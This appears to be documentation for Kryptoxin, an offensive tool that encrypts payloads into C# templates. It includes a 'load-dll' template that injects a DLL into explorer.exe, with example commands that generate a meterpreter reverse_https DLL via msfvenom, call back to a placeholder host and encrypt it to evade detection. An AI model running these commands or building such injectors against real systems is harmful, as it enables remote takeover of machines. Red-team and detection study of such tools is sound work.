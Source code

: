 # C\# (.NET)

Kryptoxin supports the [C# programming language](https://learn.microsoft.com/en-us/dotnet/csharp/) as an output language for templates.

## Overview

The C# language is very valuable in the security field, as it provides access to the .NET framework capabilities. Managed programs and DLLs can be written to perform system API calls while granting access to more sophisticated functions such as AES decryption.

All templates shipped with Kryptoxin can be directly pasted into [Visual Studio](https://visualstudio.microsoft.com) (we recommended versions >= `2022`) and be compiled without modification.

## Print Program (`print`)

This basic console program simply prints the UTF-8 encoded text encrypted by Kryptoxin. It uses the `System.Security.Cryptography` .NET class, which is widely supported by current Windows hosts.

``` sh
$ python -m kryptoxin encrypt -k s3cret --random-iv --random-salt \
--alg AES --key_size 192 --iter 5000 --lang csharp --action print
```

``` {.c# .no-copy}
using System.Security.Cryptography;

class Program // (1)!
{

    [...]
  
    static void Main(string[] args) // (2)!
    {
        [...]
    }
}
```

1. The class generated must be imported in a `C# .NET Console Program` project.
2. The main entry point is `Main()`, the latter will call the decoding and decryption routines.

## DLL Process Injection (`load-dll`)

This .NET console program injects a DLL such a those generated by the metasploit's msfvenom utility, into the `explorer.exe` process.

???+ warning "The .DLL file is written to the target's disk unencrypted"
    This C# console program uses the `LoadLibraryA()` Windows API function, which require a library file stored on the disk.
    Therefore it will write the decrypted DLL onto the host's hard disk, allowing for potential anti-virus detection.

The example below encrypt the `msf.dll` generated by msfvenom and output a C# console program source code that can be readily pasted into a Microsoft Visual Studio project.

``` sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=w.x.y.z LPORT=443 EXITFUNC=thread -f dll -o msf.dll
```
``` sh
$ python -m kryptoxin encrypt -k 123456 --random-iv --random-salt --lang csharp --action load-dll --in msf.dll
```
